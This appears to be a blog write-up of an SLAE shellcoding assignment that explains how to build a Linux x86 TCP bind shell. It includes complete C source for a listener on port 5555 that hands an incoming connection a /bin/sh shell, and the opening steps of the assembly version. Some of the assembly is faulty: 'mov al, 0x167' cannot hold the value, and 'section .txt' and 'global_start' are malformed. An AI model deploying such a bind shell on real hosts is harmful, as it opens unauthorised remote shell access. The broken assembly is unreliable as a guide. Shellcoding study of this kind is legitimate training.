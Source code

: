```yaml
---
layout: single
title: SLAE Assignment 1 -- TCP Bind Shell
date: 2019-5-4
classes: wide
header:
  teaser: /assets/images/OSCP/pwk.png
tags:
  - SLAE
  - Linux
  - x86
  - Shellcoding
--- 
```

![](/assets/images/OSCP/OSCP.png)

## Introduction

The first SLAE assignment is to develop shellcode for a bind TCP shell. What is a bind TCP shell? According to [Infosec Institute](https://resources.infosecinstitute.com/icmp-reverse-shell/#gref), a bind shell is "a type of shell in which the target machine opens up a communication port or a listener on the victim machine and waits for an incoming connection. The attacker then connects to the victim machine’s listener which then leads to code or command execution on the server."

I found that while not an easy subject, the actual assembly code construction was not very difficult. The learning curve from this assignment really came from trying to wrap my head around 'socket programming' fundamentals. The hardest part for me was trying to parse man page information about the various syscalls and trying to understand how to format the arguments required for each syscall. Let's jump right into it. 

## Prototype

The first thing we want to do, in order to see the syscalls required to support the creation of a bind shell, is find the simplest implementation of a bind shell in a language higher than assembly. After a bit of googling, the simplest version of a bind shell in C that I could find is the following, with my comments added:

```c
#include <stdio.h>
#include <strings.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {

    // This is our first syscall, the socket() call. 
    int listen_sock = socket(AF_INET, SOCK_STREAM, 0);

    // It looks like here we're building a 'struct' which consists of AF_INET, the interface we want to listen on (all), and a port number to bind on. This entire entity will be referenced in arguments for the next syscall: bind()    
    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;           
    server_addr.sin_addr.s_addr = INADDR_ANY;  
    server_addr.sin_port = htons(5555);        

    // Our second syscall, and perhaps the most complicated: bind() 
    bind(listen_sock, (struct sockaddr *)&server_addr, sizeof(server_addr));

    // Our third syscall is listen()
    listen(listen_sock, 0);

    // Our fourth syscall is accept() 
    int conn_sock = accept(listen_sock, NULL, NULL);

    // Our fifth syscall, dup2(), is used 3 times
    dup2(conn_sock, 0);
    dup2(conn_sock, 1);
    dup2(conn_sock, 2);

    // Our final syscall is execve(), which runs a program fed to it as a string
    execve("/bin/sh", NULL, NULL);
}
```
Now that that's settled, it's become apparent we need to execute 6 syscalls in our assembly code:
+ socket
+ bind
+ listen
+ accept
+ dup2
+ execve

## Building Our Assembly Code

### Assembly Skeleton Code
```nasm
global_start

section .txt
_start:
```
The first thing we want to do is to clear out the registers we're going to use immediately. How do we know what registers we want to use? You can think of your syscall as something like an *arg[0]* in a command line program. So that's always going to correspond with the first register, EAX. Subsequent arguments will follow sequentially: *arg[1]* will correspond to EBX, *arg[2]* will correspond to ECX, etc.

If we consult `man 2 socket` for our first syscall, socket, we see that it takes 3 arguments in the following fashion:`int socket(int domain, int type, int protocol);`

So counting the syscall itself and its 3 arguments, we need to clear the first 4 registers so that we can work with those. Let's clear them by XOR'ing them with themselves so that we clear them in a way that does not introduct NULL BYTEs into our shellcode.

```nasm
global_start

section .txt
_start: 
  
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx
```

## Socket Syscall

Let's now figure out what we're going to put into EAX to call socket. We can do this with a `cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep socket` which tells us that the code for socket is 359. Popping 359 as decimal into a hex converter tells us that the hex equivalent is `0x167`, so let's place that in the low space of EAX so as to not introduce any NULL BYTEs with padding. 

```nasm
    mov al, 0x167
```

Now let's start with the arguments. `man 2 socket` tells us that the first argument is `int domain` which we see in the man page is `AF_INET` for IPv4. Let's just google 'value for AF_INET' and see what value we should use in the argument. Our first [result](http://students.mimuw.edu.pl/SO/Linux/Kod/include/linux/socket.h.html) is a university webpage which looks to be a header file explaining not only the value of `AF_INET` but also of `SOCK_STREAM` which is going to be our second value to satisfy the `int type` argument. According to the file, `AF_INET` is 2 and `SOCK_STREAM` is 1 (0x02 and 0x01) respectively. The last argument value for `int protocol` is going to be '0' according to the man page. So we need the following register and value combinations:
+ EBX == 0x02
+ ECX == 0x01
+ EDX == 0

Let's make these changes to our assembly code. If you remember, we already cleared EDX, so our zero value is already accounted for, so need to mess with that register at all. 

```nasm
    mov bl, 0x02
    mov cl, 0x01
```

Next we need to pass control to the [interrupt vector](https://stackoverflow.com/questions/1817577/what-does-int-0x80-mean-in-assembly-code) in order to handle our syscall (socket). 

```nasm
    int 0x80
```

Lastly, before moving on, we will need a way to identify this socket we've just created to subsequent systemcalls. We can do this by storing the value of EAX off to the side so that we can reference it later and still use EAX in our subsequent systemcalls. I chose to store this value in EDI as EDI is pretty far down our list of registers we'd fill arguments with, no idea if this makes sense, but it worked!

```nasm
    mov edi, eax
```







